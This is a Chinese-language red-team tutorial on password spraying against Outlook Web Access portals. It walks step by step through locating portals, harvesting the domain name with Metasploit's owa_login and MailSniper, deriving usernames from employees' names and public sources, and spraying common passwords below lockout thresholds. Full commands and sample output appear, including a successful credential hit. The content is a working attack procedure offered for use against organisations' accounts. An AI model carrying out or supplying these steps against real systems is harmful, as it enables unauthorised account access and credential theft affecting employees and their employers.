## Password spraying
下文译作密码碰撞

###常见手法
密码碰撞是一种使用使用有效的用户名和弱口令进行排列组合尝试登录的技术，目的是获得有效的身份凭证。

这种技术在从某种程度上来说并不可靠的，一不小心执行就会导致自己处于暴露的边缘。在碰撞之前，我们应该应该摸清楚目标的各个规则，如错误锁定时间次数等，以一种可控的方式尝试密码碰撞，并跨多个用户以避免锁定。也就是说密码碰撞实际上就属于暴力破解。

这项技术的使用是有前提的。不管它是在外网还是在内网执行，道理都是一样的。绝大部分需要的注意的东西都可以轻松试出了。

###前提准备
* 可碰撞的服务
* 域名/ip
* 用户名或邮箱

###常用工具
* [DomainPasswordSpray​](https://github.com/dafthack/DomainPasswordSpray)
* [MailSniper​](https://github.com/dafthack/MailSniper)
* [auxiliary/scanner/http/owa_login​](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_login)
* [auxiliary/scanner/http/owa_ews_login​](https://www.rapid7.com/db/modules/auxiliary/scanner/http/owa_ews_login)

-------

###外网
现如今绝大部分企业都为自己的员工提供了企业邮箱，所以当我们在外网发起的攻击时就可以把这作为一个攻击入口。下面以OutLook(下面简称OWA)）为例说明:
![](media/15405509800221/15405551684973.png)

如图，如果我们可以尝试用普通密码验证时找到其规律。我们就可以尝试使用公共密码进行身份验证。但是要注意在碰撞的时候不要超过登录失败后账户锁定的阈值。很多企业门户在连续尝试五到十次之后就账户就会被锁定了，有些甚至只有三次机会。锁定的时间通常为30分钟。在碰撞时一定要谨慎，具体情况得具体分析。

**第一步：寻找可碰撞的服务**
OWA门户通常会出现在`mail.testlab.local` ,`testlab.local/owa`。任何ADFS集成门户在理论上都可以碰撞，因为它们的后台都是一样的AD身份验证。需要注意有些工具(如MailSniper)是针对攻击邮件门户而开发的，因此如果不是OWA门户，那么工具的部分功能并没有什么用。子域枚举工具对寻找此类门户的地址非常有用。还有一种思路是扫web目录，如testlab.local/RDweb这样的。

**第二步：获取域名**
Metasploit的owa—login模块不仅可以用于暴力破解,还可以用来寻找有漏洞的域。对用户名进行碰撞或许能够帮助你寻找到一个有效的用户名。Metasploit使用NTLM响应来识别域名。有些管理员会把域名做成logo一类的放到OWA的页面上,碰上就是再好不过的了。

```
use auxiliary/scanner/http/owa_login
set rhost <rhost>
set username <username>
set password <password>
exploit
​
[+] Found target domain: TESTLAB
```
除此之外，也可以让MailSniper根据响应时间来获取域名。

```
Invoke-DomainHarvestOWA -ExchHostname testlab.local -DomainList c:\temp\domainlist.txt -OutFile potential-domains.txt
​
[*] Harvesting Domain Name from the OWA portal at https://testlab.local/owa/
...
[*] Potentially Valid Domain! Domain:TESTLAB
```

**第三步：获取有效的用户名或者邮箱**
前面我们已经获取到了域名, 现在我们可以尝试一下枚举用户名。如果我们没找到相关用户名或邮箱,那就需要想办法获取到,比如社工库,Google,baidu,Linkedin,钟馗之眼等等。此外我们也可以尝试一下直接暴力枚举用户名,当时成功的几率通常很小。

假设这种情况,我们在Linkedin上获取到一个邮箱账号并不为奇,那么可以顺便检查一下**theHarvester**.如果他的名字是`Bill Long Money`,那么他的邮箱就很可能是`bill.money@testlab.biz`。同理如果你在百度贴吧搜索到一个QQ号,那么他的邮箱就是`xxxx@qq.com` 。

域用户名的设置通常有很多可能的规律，假设名字是:`Bill Long Money`那么用户名可能是：
* 名字的首字母+姓氏= bmoney
* 名字的字母缩写和姓氏(也可以包括中间名)= bm或blm
* 前缀(通常是字符)+名首字母+姓氏= a-bmoney
* 全名= billmoney(比较少见)

我们可以通过对不同的信息进行排列组合形成一个用户名字典。`owa_login`可以验证出用户名是否有效。比如我们试一下`bmoney`这个用户名。

```
use auxiliary/scanner/http/owa_login
set rhost 10.10.10.10
set domain TESTLAB
set username bmoney
set password ilovemoney
exploit
​
[*] 10.10.10.10:443 OWA - Trying bmoney : ilovemoney
[+] server type: MX01
[*] 10.10.10.10:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.224583728 'TESTLAB\bmoney' : 'ilovemoney': SAVING TO CREDS
[*] Auxiliary module execution completed
```

如同提示`FAILED LOGIN, BUT USERNAME IS VALID`所说，虽让登录失败了，但是用户名是存在的嘛。

同样我们也可以使用Mailsniper进行类似的操作。

```
Invoke-UsernameHarvestOWA -ExchHostname testlab.corp.local -UserList c:\temp\userlist.txt -Domain TESTLAB -OutFile potential-usernames.txt
​
[*] Now spraying the OWA portal at https://testlab.local/owa/
...
[*] Potentially Valid! User:TESTLAB\bmoney
```

**第四步：开始碰撞**
现在有效的域和用户名都有了，我门就可以开始进行碰撞了。如前面所提醒的一样，为了防止账户被锁定。那些用户名碰撞过，确切时间，尝试了哪些密码，以及每个用户尝试了多少次等都很重要，我们需要控制好线程。

```
use auxiliary/scanner/http/owa_login
set rhost 10.10.10.10
set domain TESTLAB
set username bmoney
set password ilovemoney
exploit
​
[*] 10.10.10.10:443 OWA - Trying bmoney : ilovemoney
[+] server type: MX01
[*] 10.10.10.10:443 OWA - FAILED LOGIN, BUT USERNAME IS VALID. 0.224583728 'TESTLAB\bmoney' : 'ilovemoney': SAVING TO CREDS
[*] Auxiliary module execution completed
```

同理也可以使用Mailsniper进行该的操作，用户名我们放在`userlist.txt`文件里。

```
Invoke-PasswordSprayOWA -ExchHostname testlab.local -userlist .\userlist.txt -password winter2018
​
[*] Now spraying the OWA portal at https://testlab.local/owa/
​
[*] SUCCESS! User:bmoney:winter2018
```

很奈斯，碰撞到了有效的密码。

-------
###内网
碰撞不仅仅是您可以在外部找到域用户的事。如果您有内部访问权限，但不知道域用户，或者在没有其他操作权限时获得更高权限的用户的凭据，这可能非常有用。

再会！




